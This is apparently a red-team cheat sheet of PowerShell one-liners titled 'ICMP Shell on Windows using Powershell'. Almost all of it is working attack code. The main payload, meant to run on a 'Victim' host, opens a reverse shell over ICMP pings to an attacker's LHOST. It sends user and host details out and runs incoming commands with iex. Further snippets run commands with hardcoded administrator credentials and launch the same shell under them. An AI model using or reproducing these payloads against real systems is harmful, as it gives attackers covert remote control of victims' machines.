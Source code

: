ICMP Shell on Windows using Powershell
----------------------

#Run commands on a remote windows host



#Get a ICMP Shell on a remote host using powershell
#If you can ping from your BlueTeam(Victim) to your RedTeam (Attacker)
#Run icmpsh_m.py (RedTeam)
#Payload to run on BlueTeam(Victim)
$ip = 'LHOST'; $id = 'UNIQUEID'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment=$true; function s($b) { $ic.Send($ip,5000,([text.encoding]::ASCII).GetBytes($b),$po) }; function p { -join($id,'[P$] ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ') }; while ($true) { $r = s(p); if (!$r.Buffer) { continue; }; $rs = ([text.encoding]::ASCII).GetString($r.Buffer);  if ($rs.Substring(0,8) -ne $id) { exit }; try { $rt = (iex -Command $rs.Substring(8) | Out-String); } catch { $rt = ($_.Exception|out-string) }; $i=0; while ($i -lt $rt.length-110) { s(-join($id,$rt.Substring($i,110))); $i -= -110; }; s(-join($id,$rt.Substring($i))); }



#Execute command as user
#Change to reflect credentials 
$user = '.\administrator'; $passwd = '1234test'; $secpswd = ConvertTo-SecureString $passwd -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $user, $secpswd; invoke-command -computername localhost -credential $credential -scriptblock { COMMANDS }



#Change Credentials to user
#Change to reflect credentials 
$user = '.\administrator'; $passwd = '1234test'; $secpswd = ConvertTo-SecureString $passwd -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $user, $secpswd; invoke-command -computername localhost -credential $credential -scriptblock { $ip = 'LHOST'; $id = 'UNIQUEID'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment=$true; function s($b) { $ic.Send($ip,5000,([text.encoding]::ASCII).GetBytes($b),$po) }; function p { -join($id,'[P$] ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ') }; while ($true) { $r = s(p); if (!$r.Buffer) { continue; }; $rs = ([text.encoding]::ASCII).GetString($r.Buffer);  if ($rs.Substring(0,8) -ne $id) { exit }; try { $rt = (iex -Command $rs.Substring(8) | Out-String); } catch { $rt = ($_.Exception|out-string) }; $i=0; while ($i -lt $rt.length-110) { s(-join($id,$rt.Substring($i,110))); $i -= -110; }; s(-join($id,$rt.Substring($i))); } }


